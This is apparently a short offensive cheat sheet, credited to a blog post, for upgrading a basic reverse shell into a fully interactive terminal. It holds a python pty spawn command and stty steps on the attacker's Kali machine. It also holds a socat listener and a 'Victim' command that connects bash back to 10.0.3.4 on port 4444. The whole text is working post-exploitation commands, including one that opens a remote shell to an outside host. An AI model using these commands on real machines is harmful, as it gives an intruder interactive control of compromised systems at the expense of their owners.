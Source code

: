 # https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### stty options
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash;export TERM=xterm-256color;stty rows 48 columns 198

### socat
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
